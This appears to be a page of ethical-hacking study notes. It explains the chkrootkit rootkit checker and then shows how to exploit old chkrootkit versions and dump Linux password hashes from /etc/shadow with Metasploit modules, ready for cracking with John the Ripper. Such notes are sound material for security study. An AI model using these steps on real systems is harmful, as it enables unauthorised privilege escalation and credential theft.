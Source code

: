 **chkrootkit** is a tool to locally check for signs of a [rootkit](https://www.chkrootkit.org/links/). It contains:

* chkrootkit: shell script that checks system binaries for rootkit modification.
* ifpromisc.c: checks if the interface is in promiscuous mode.
* chklastlog.c: checks for lastlog deletions.
* chkwtmp.c: checks for wtmp deletions.
* check\_wtmpx.c: checks for wtmpx deletions. (Solaris only)
* chkproc.c: checks for signs of LKM trojans.
* chkdirs.c: checks for signs of LKM trojans.
* strings.c: quick and dirty strings replacement.
* chkutmp.c: checks for utmp deletions.

If chkrootkit is running on target machine, and vs is less than 0.5, we can exploit it.

```bash
ps aux #process running on the system
cat /bin/check-down #see check-down source code
chkrootkit —help
chkrootkit -V #version, if it's less than 0.5, we can exploit it
search chkrootkit
use exploit/unix/local/chkrootkit
```

### Duping Hashes With Hashdump

In Linux OS hashes are stored in the /etc/shadow file and can only be accessed by the root user or a user with root privileges.

Of course, in MSF there're a module called hashdump to dump linux user hashes from the /etc/shadow file and can also be used to unshadow the hashes for password cracking with [John the Ripper](http://127.0.0.1:5000/s/iS3hadq7jVFgSa8k5wRA/pratical-ethical-hacker-notes/john-the-ripper) tool.

After exploiting the target and starting Meterpreter Shell, we need to check if the target has root permission using getuid command, or we need to elevate it.

```bash
getuid
Server username: uid=0, gid=0, euid=0, egid=0
```

uid equals to 0 means that we've root permissions, then we can use meterpreter hashdump module:

```
search hashdump
use post/linux/gather/hashdump
```

This exploit generates a txt file with all hashes, we can see list of dump with `loot` command and read them using `cat` command.
